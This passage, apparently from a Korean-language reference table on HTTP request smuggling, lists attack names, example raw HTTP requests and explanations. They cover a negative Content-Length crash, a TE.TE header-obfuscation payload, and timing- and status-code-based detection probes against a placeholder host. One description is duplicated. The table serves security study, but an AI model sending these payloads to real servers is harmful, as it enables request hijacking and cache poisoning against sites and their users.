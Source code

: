       <td><pre><code>Content-Length: -1</code></pre></td>
      <td>파싱 로직의 예외 처리를 이용해 무한 루프 또는 크래시를 유발파싱 로직의 예외 처리를 이용해 무한 루프 또는 크래시를 유발</td>
      <td>[4]</td>
    </tr>
    <tr>
      <td>TE.TE</td>
      <td><pre><code>POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding[TAB]: chunked 
<br>
8
SMUGGLED
0</code></pre></td>
      <td>Front-end 서버와 Back-end 서버 모두 Transfer-Encoding헤더 지원
헤더를 난독화해서 서버 중 하나가 난독화한 헤더를 처리하지 않도록 유도해서 차이를 발생 시킴</td>
      <td>[C]</td>
    </tr>
  </tbody>
</table>

### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Timing‑based Validation</td>
      <td><pre><code>POST / HTTP/1.1<br>
Host: vulnerable-website.com<br>
Transfer-Encoding: chunked<br>
Content-Length: 4<br>
<br>
1<br>
A<br>
X</code></pre></td>
      <td>프런트엔드는 Content-Length만큼(4바이트)만 전달하고 종료해 백엔드는 첫 청크(1→A) 처리 후 다음 청크(X)를 기다리며 지연을 발생시킨다.</td>
      <td>[G]</td>
    </tr>
    <tr>
      <td>Status Code‑based Validation</td>
      <td><pre><code>POST / HTTP/1.1 
Host: vulnerable-website.com 
Transfer-Encoding: chunked 
Content-Length: 3 <br>
<br>
0 <br>
<br>
GET /404 HTTP/1.1; <br>
<br>
GET / HTTP/1.1 
Host: vulnerable-website.com</code></pre></td>
      <td>첫 번째 요청으로 /404 경로를 스머글링한 뒤 즉시 평범한 GET / 요청을 전송해, 두 번째 요청의 상태 코드가 404 Not Found로 바뀌는지를 비교해 취약을 확인한다.</td>
      <td>[J]</td>
    </tr>
  </tbody>